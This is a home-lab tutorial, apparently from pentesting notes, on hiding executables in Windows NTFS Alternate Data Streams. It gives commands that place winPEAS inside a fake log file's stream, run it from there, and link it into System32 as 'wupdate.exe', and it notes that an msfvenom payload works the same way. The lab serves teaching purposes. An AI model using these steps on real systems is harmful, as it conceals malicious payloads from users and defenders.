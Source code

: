 # 🔬Alternate Data Stream

## Lab 1 (Extra)

> 🔬 **Home Lab**
>
> I will use a *Windows 10 Virtual Machine* for this demonstration

- Open a Command Prompt (`cmd`)

```bash
notepad text.txt
```

- Check the Resource Stream (metadata) of the file

![](assets/image-20230317182101971.png)



```bash
notepad test.txt:secret.txt
# secret.txt contains the Resource Stream

notepad test.txt
# normal Data Stream
```

![](assets/image-20230317182213196.png)

![](assets/image-20230317182338040.png)

`e.g.` - Download latest [winPEASx64_ofs.exe](https://github.com/carlospolop/PEASS-ng/releases/tag/20230312) (*Antivirus may block the file*), rename it to `payload.exe` and move it to `C:\Temp` directory

- Using the `type` command, redirect the output into a new legitimate text file, passing in the actual executable into the text file resource stream.

```bash
type payload.exe > windows_log.txt:winpeas.exe
del payload.exe
```

- `windows_log.txt` file can be filled with legitimate logs data to make it as realistic as possible
- Start the hidden executable

```bash
start windows_log.txt:winpeas.exe
```

![](assets/image-20230317183947118.png)

- Open an elevated `cmd` and create a symbolic link

```bash
cd C:\Windows\System32
mklink wupdate.exe C:\Temp\windows_log.txt:winpeas.exe
```

![](assets/image-20230317184205318.png)

- Run `wupdate.exe` to launch the `winpeas.exe` payload from the Resource stream of the windows_log.txt file

```bash
wupdate
```

> 📌 Same as above procedure can be done with a malicious `msfvenom` payload.

------

